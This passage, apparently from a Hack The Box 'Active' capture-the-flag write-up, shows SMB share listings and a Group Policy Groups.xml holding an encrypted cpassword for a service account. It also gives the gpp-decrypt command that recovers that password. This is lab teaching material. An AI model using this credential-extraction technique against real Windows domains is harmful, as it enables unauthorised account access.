 ```
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf, fileSize:3722, date:Sat Jul 21 06:38:11 2018
```

From this list, a few insteresting paths standout:

```
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

Looking through these files shows that `Groups.xml` has the following interesting content:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" 
      name="active.htb\SVC_TGS" image="2" 
      changed="2018-07-18 20:46:06" 
      uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
<Properties 
      action="U" 
      newName="" 
      fullName="" 
      description=""
      cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
      changeLogon="0" 
      noChange="1" 
      neverExpires="1" 
      acctDisabled="0" 
      userName="active.htb\SVC_TGS"/>
</User>
</Groups>
```

Some searching for this filename gives the following:

- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#cached-gpp-pasword
- https://adsecurity.org/?p=2288

It seems like this hash in `cpassword` is a crackable:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

![smb3](./active/smb3.png)
